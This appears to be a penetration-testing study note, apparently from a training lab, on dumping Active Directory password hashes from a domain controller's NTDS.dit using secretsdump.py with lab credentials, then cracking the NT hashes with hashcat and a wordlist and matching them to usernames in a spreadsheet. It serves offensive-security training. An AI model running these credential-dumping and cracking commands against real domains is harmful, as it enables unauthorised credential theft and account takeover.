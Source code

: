 #NTDS #hashcat #secretsdump  
# What is it?

- A database used to store AD data. This includes:

- User information
- Group information
- Security descriptors
- Password hashes

  

We can use secretsdump with the `-just-dc-ntlm`​ tag against the DC to perform this attack  

`secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.95.132`​

- should dump all secrets including NTDS.DIT  

To show only the NTDS.DIT:  

``secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.95.132 `-just-dc-ntlm`​``  

- should dump just NTDS.dit

Only crack nt part of hash not lm (lm:nt is format)

- copy user and full hashes to excel, use Data tab > Text to Columns > delimiter ":". Then can copy nt hash to file to use hashcat on that file

`hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt`​ `--show`​  

- copy username and cracked passwords to a new excel tab
- use =vlookup(B1,Sheet2!A:B,2,false)​ in column C in tab 1
- This will match the hash with its cracked password in excel. Useful for engagements when there are a lot of hashes/cracked passwords
- Focus on user passwords to crack, DC passwords will likely not be cracked